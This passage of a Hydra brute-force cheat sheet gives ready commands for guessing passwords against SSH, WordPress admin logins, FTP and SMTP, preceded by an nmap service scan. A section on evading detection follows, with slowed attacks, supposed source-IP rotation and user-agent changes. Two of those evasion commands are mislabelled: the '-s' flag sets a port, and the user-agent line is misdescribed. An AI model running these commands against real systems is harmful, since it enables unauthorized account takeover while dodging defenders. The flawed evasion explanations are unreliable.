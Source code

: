 ### 2. SSH Server Hardening Test
```bash
# Test common credentials
hydra -L common_users.txt -P common_pass.txt ssh://server.company.com

# Test against specific user with time delay
hydra -l serviceaccount -P passwords.txt -w 10 -t 4 ssh://server.company.com
```

### 3. WordPress Admin Testing
```bash
# WordPress admin brute force
hydra -l admin -P pass.txt target.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:ERROR"
```

### 4. Network Service Discovery and Testing
```bash
# First, discover services with nmap
nmap -sV -p 21,22,23,25,53,80,110,443,993,995 target.com

# Then test discovered services
hydra -L users.txt -P pass.txt ftp://target.com
hydra -L users.txt -P pass.txt ssh://target.com
hydra -L users.txt -P pass.txt smtp://target.com
```

---

## 🛡️ Evasion & Stealth Techniques

### 1. Rate Limiting Bypass
```bash
# Slow down attacks to avoid detection
hydra -w 5 -t 1 -L users.txt -P pass.txt target service

# Random delays
hydra -W 2 -L users.txt -P pass.txt target service
```

### 2. Source IP Rotation
```bash
# Use different source IPs (requires multiple network interfaces)
hydra -s 2222 -L users.txt -P pass.txt target service
```

### 3. User Agent Randomization
```bash
# For HTTP attacks, vary user agents
hydra -m "Mozilla/5.0 (X11; Linux x86_64)" -L users.txt -P pass.txt target http-post-form
```

---
